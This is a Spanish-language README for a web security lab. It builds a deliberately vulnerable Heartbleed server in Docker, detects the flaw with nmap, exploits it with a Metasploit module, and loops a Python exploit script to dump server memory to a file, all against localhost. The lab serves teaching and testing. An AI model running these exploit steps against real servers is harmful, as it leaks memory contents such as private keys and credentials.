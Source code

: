 # Seguridad de Aplicaciones Web

## Pasos para levantar el entorno de pruebas

Construir la imagen en Docker:

```bash	
docker build -t heartbleed-image-websegapp .
```

Crear un contenedor en base a la imagen abriendo los puertos y exponiendo los volumenes internos:

```bash
docker run  -p 443:443 --name heartbleed-server -d -it heartbleed-image-websegapp
```

## Verificar si el servidor es vulnerable 

Con NMAP:

```bash
nmap -sV –script=ssl-heartbleed
```

Con MSF:
```bash
msfconsole
```

Usamos el plugin para explotar la vulnerabilidad:
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
```

Establecer el servidor victima y ponemos en modo dump el plugin:

```bash
set RHOSTS localhost
set verbose true
```

Explotamos la vulnerabilidad:

```bash
exploit
```

## Hacer dump de la memoria del servidor HTTP vulnerable:

Requisito: tener instalado python 2.7

Creamos el archivo donde vamos a hacer dump del servidor y vemos que va pasando en vivo:

```bash
truncate -s0 /tmp/heartbleed.out && tail -f /tmp/heartbleed.out
```

Ejecutamos el exploit cada un segundo y volcamos el contenido:

```bash
while true; do python heartbleed.py localhost >> /tmp/heartbleed.out; sleep 1; done
```

## License
[MIT](https://choosealicense.com/licenses/mit/)


